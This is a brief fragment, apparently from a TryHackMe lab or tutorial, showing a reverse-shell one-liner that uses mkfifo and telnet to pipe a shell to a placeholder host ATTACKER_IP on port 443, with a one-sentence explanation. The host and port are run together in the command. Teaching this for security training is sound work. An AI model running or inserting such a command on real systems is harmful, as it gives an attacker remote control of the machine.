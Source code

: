 
```sh
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```
Creates a named pipe using `mkfifo` and connects to the attacker via Telnet on IP `ATTACKER_IP` and port `443`.